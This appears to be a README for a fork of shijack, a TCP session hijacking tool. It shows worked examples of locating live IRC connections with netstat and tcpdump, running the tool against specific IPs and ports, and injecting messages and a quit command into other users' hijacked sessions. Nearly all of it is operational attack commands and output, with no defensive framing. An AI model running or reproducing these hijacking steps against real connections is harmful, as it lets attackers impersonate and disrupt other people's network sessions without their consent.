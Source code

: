 This is a fork of shijack connection hijacking tool


Examples:

Local hijacking:
```
(root@inch shijack)# netstat -an | grep 6667
tcp4       0      0  203.43.200.22.2493      198.163.216.60.6667    ESTABLISHED
(root@inch shijack)# ./shijack-fbsd dc0 203.43.200.22 2493 198.163.216.60 6667
Waiting for SEQ/ACK  to arrive from the srcip to the dstip.
```

(To speed things up, try making some traffic between the two, /msg person asdf

```
Got packet! SEQ = 0xa1963181 ACK = 0xd4f7175f
Starting hijack session, Please use ^C to terminate.
Anything you enter from now on is sent to the hijacked TCP connection.
privmsg spwny :h0h0h0.
privmsg moo :you fat cow :(
^CClosing connection..
Done, Exiting.
```

Subnet hijacking:
```
(root@inch shijack)# tcpdump -n -i dc0 | grep 6667
tcpdump: listening on dc0
14:36:23.174889 206.221.255.190.6667 > 203.43.200.114.19970: P 2867450580:2867450719(139) ack 8410247 win 17503 (DF)
14:36:23.329866 203.43.200.114.19970 > 206.221.255.190.6667: . ack 139 win 7302 (DF)
^C
15 packets received by filter
0 packets dropped by kernel
```
```
(root@inch shijack)# ./shijack-fbsd dc0 203.43.200.114 19970 206.221.255.190 6667
Waiting for SEQ/ACK  to arrive from the srcip to the dstip.
```

(To speed things up, try making some traffic between the two, /msg person asdf

```
Got packet! SEQ = 0x8054de ACK = 0xaae9d5a3
Starting hijack session, Please use ^C to terminate.
Anything you enter from now on is sent to the hijacked TCP connection.
privmsg spwny :hi!
privmsg spwny :lalala.
quit :hehe!
^CClosing connection..
Done, Exiting.
```

